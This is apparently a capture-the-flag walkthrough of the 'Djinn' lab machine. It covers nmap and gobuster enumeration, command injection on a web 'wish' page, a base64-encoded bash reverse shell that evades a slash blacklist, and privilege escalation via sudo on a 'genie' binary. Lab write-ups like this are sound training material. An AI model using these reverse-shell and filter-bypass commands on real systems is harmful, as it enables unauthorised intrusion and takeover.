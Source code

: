 # Djinn

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![f84de650feb2a1309625aaff4adfb83d.png](./_resources/65c9ec4d9d6e436788affd3d537225e8.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.129 -oN full_service_enum-sC.txt`
![0dfa4145e322dba95aa646e7848b2736.png](./_resources/e718053a0f39427195f3cdb2b63156cd.png)
![4d9ee0e7c513b63ab9e43920753b0cfa.png](./_resources/fa593ae22bce4d649b5ca31f14f7d272.png)

`nmap -sV -sU -F 192.168.196.129 -oN udp-sC-sV.txt`

## 1.3 Web port 7331
### 1.3.1 Enum web content
`gobuster dir -u http://192.168.196.129:7331/ -w /usr/share/wordlists/dirb/big.txt -t 50 -f -o info2.txt` <- with added slashs, it don't returns results.
`gobuster dir -u http://192.168.196.129:7331/ -w /usr/share/wordlists/dirb/big.txt -t 50`
![137c31d8c64c55e91dc55f8509ba7b28.png](./_resources/2c1abbb4f93b4766a582e39cf03f966c.png)

### 1.3.2 Genie page
![73ee3a1a033ca9c5d2d52b4318328c7c.png](./_resources/d1b4456acb9a46668dbf48e7d859be44.png)

### 1.3.3 Wish page
![4fe4d5bc99c2ef38bb722919db346e2c.png](./_resources/cd4601967aa149438cc73d58f44a578e.png)
What is typed here is interpreted as linux terminal commands.

![f6b3387328509646f7c9b061e16361b3.png](./_resources/8286b0d038d34ef2ae002ccb6cfdef7a.png)

And returns as paragraph:
![e2f0685e61fb2338ae0e8c44ba9a337f.png](./_resources/c38985976d964523baa9f9f8d507f11e.png)

At this point, we cag get a reverse shell with python.


# 2 Exploitation with bypass filter
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
All reverse shells were blocked. Apparently the "/" character is identified and blocked.

An attempt to bypass by base64 encoding worked.

`echo "bash -i >& /dev/tcp/192.168.196.121/4446 0>&1" | base64` <- on kali linux

`echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE5Ni4xMjEvNDQ0NiAwPiYxCg==" | base64 -d | bash` <- web target

![c926b53dcca77327de261371bdd5ae94.png](./_resources/7de7bf58eb6d426fa8781804e3fa845d.png)


# 3 Post-exploitation
![b383c43dd66b0db592da7b1f6cf54729.png](./_resources/8bfeb1670f7c4f579109be9dc515a1d4.png)

![07574321ad81f588af3baec59f7dd79e.png](./_resources/ddd5e85a4d234e808e4253af4a144dbf.png)

Here we can see the blocking method used, a blacklist.

Also there is a path with creeds:
`/home/nitish/.dev/creds.txt`

## 3.1 Nitish user
![aaf0cb7d10de10a197e5dacca4a33986.png](./_resources/13541d77403a41089cfe9d63609e82de.png)

## 3.2 Sam user
LinEnum.sh returns some good information:
![1edc98a678d34d2b5a4429915af11012.png](./_resources/a14c936000604e24be4d02ea01b1aac2.png)

![9ee8cb7829679ad52076e567d0bbc42e.png](./_resources/42142b9985ac4cd2a84fb49737257f7a.png)
![e8c813fb3c268fec928ddf195c0bc9c3.png](./_resources/5a720de76a2646f09b6f47939d7cdeb4.png)

![6f0504c7d3117be56275b846c57a04a4.png](./_resources/9131bcfeea654d8d83a11b9fddda923f.png)

After try different methods to get shell, none results.

### 3.2.1 Basic bin analisys and shell
The first way is to use the `strings` command to get some information. For that you need to download the binary to the Kali machine and use the command:
`strings genie`

![74bc7100322fa43b70786f2eafb09b79.png](./_resources/1f8738bdaf5348a58704eefb7ae629fa.png)

`sudo -u sam /usr/bin/genie -cmd test`
![7edf8421a3b7b63bb92645dd7d352d93.png](./_resources/ee6c7ca98ef2498ca964fb80bee54383.png)

## 3.3 Getting root
![3695c6c16ce44f8dfad4116e6bb3b6b7.png](./_resources/7833d0bbe56d4d6d849a59c6be42c398.png)

What works here, was set the option `2` and after type `num` (apparently a variable). Done, it's possible get root.
![1e94958da014e596d207797e8f0ccf28.png](./_resources/79dba6701e5d423cb26319b0efb2b889.png)
